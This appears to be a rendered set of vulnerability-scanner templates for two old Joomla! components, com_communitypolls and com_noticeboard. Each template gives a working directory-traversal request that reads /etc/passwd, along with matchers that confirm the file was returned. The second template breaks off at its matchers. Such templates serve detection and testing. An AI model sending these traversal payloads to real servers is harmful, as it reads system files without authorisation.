## Description

- A directory traversal vulnerability in the Community Polls (com_communitypolls) component 1.5.2, and possibly earlier, for Core Joomla! allows remote attackers to read arbitrary files via a .. (dot dot) in the controller parameter to index.php.
- severity - high
- tags - cve,cve2010,joomla,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php?option=com_communitypolls&controller=../../../../../../../../../../../../../../../etc/passwd%00

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Joomla! Component NoticeBoard 1.3 - Local File Inclusion

## Description

- A directory traversal vulnerability in the Code-Garage NoticeBoard (com_noticeboard) component 1.3 for Joomla! allows remote attackers to read arbitrary files and possibly have unspecified other impacts via a .. (dot dot) in the controller parameter to index.php.
- severity - high
- tags - cve,cve2010,joomla,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php?option=com_noticeboard&controller=../../../../../../../../../../etc/passwd%00

### Matchers
